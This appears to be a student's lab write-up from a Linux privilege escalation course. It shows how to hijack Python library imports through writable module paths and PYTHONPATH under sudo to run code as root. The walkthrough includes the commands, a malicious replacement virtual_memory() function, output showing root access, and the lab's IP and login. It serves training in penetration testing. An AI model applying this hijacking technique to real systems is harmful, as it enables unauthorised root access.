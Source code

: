 Python libraries can be hijacked via the following ways:
- wrong write permissions. i.e., the SUID bit is set for a file or other resource
- library path
- PYTHONPATH environment variable

### Library Path Listing

The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. Executing the below command will show the order of modules imported by Python:

```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```
```shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

> [!NOTE] This method requires two pre-requisites:
>1. ==The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.==
>2. ==We must have write permissions to one of the paths having a higher priority on the list.==

View a programs default install location:
```
pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

```

The above shows that psutil is installed at `/usr/local/lib/python3.8/dist-packages`. See if you have write access to the python3.8 directory. 

```
ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
```

Confirming you do, this satisfies the first criteria of having write permissions to one of the higher priority paths. The `PYTHONPATH` showed the path `/usr/lib/python3.8` is higher on the list than `/usr/local/lib/python3.8/dist-packages` where `psutils` is installed.

```
python3 -c 'import sys; print("\n".join(sys.path))'

shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

Solution: Take advantage of this misconfiguration by creating your own `psutils` module containing your own malicious `virtual_memory()` function in the `/usr/lib/python3.8`

> [!NOTE] In a previous example, the mem_status script, which used the virtual_memory() function, was found to be writeable to all users. I will recreate this in a file below called psutil.py. This file must have all the same parameters, functions and name as the imported psutil.py.

```
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

### Privilege Escalation via Hijacking Python Library Path
```
sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```
### PYTHONPATH 

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import.

Assume you are allowed to run `/usr/bin/python3` under the trusted permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV`
```shell-session
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
   (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

Using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program.

```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

# Questions

IP
```
10.129.205.114
```

USERNAME
```
htb-student
```

PASSWD
```
HTB_@cademy_stdnt!
```

SSH
```
ssh htb-student@10.129.205.114
```

Although it's the same as the examples in the module, proceed as if you have no information.

### Enumeration

**Finding writeable files in the htb-student's home folder**
```
htb-student@ubuntu:~$ find /home/htb-student -type f -perm -04000 -ls 2>/dev/null
3724      4 -rwSrwxr-x   1 root     root          192 May 19  2023 /home/htb-student/mem_status.py
```

The file `mem_status.py` has the SUID bit set. We can also read the contents and execute the script.

Viewing the file, I see it's being called by psutil which is imported. psutil is also calling the `virtual_memory()`
```
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

Find the default location of psutil: ==/usr/local/lib/python3.8/dist-packages==
```
htb-student@ubuntu:~$ pip3 show psutil
Name: psutil
Version: 5.9.5
Summary: Cross-platform lib for process and system monitoring in Python.
Home-page: https://github.com/giampaolo/psutil
Author: Giampaolo Rodola
Author-email: g.rodola@gmail.com
License: BSD-3-Clause
Location: /usr/local/lib/python3.8/dist-packages
Requires: 
Required-by: 
htb-student@ubuntu:~$ 
```

The the __init__.py function appears to be writeable by our user, `htb-student`
```
htb-student@ubuntu:~$ ls -la /usr/local/lib/python3.8/dist-packages/psutil
total 568
drwxr-sr-x 4 root        staff   4096 Jun  7  2023 .
drwxrwsr-x 6 root        staff   4096 Jun  5  2023 ..
-rw-r--r-- 1 root        staff  29181 May 19  2023 _common.py
-rw-r--r-- 1 root        staff  15025 May 19  2023 _compat.py
-rw-r--r-- 1 htb-student staff  87657 Jun  8  2023 __init__.py
-rw-r--r-- 1 root        staff  18665 May 19  2023 _psaix.py
-rw-r--r-- 1 root        staff  31769 May 19  2023 _psbsd.py
-rw-r--r-- 1 root        staff  86913 May 19  2023 _pslinux.py
-rw-r--r-- 1 root        staff  16275 May 19  2023 _psosx.py
-rw-r--r-- 1 root        staff   8245 May 19  2023 _psposix.py
-rw-r--r-- 1 root        staff  25486 May 19  2023 _pssunos.py
-rwxr-xr-x 1 root        staff 107400 May 19  2023 _psutil_linux.abi3.so
-rwxr-xr-x 1 root        staff  71008 May 19  2023 _psutil_posix.abi3.so
-rw-r--r-- 1 root        staff  37425 May 19  2023 _pswindows.py
drwxr-sr-x 2 root        staff   4096 Jun  5  2023 __pycache__
drwxr-sr-x 3 root        staff   4096 Jun  5  2023 tests
htb-student@ubuntu:~$ 
```

The `virtual_memory()` function is found on line 1920. Here you will place the following inside the function:
```
import os
os.system('id')
```

Execute and you will see you are able to execute the function as root:
```
sudo /usr/bin/python3 /home/htb-student/mem_status.py 
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 88.76%
```



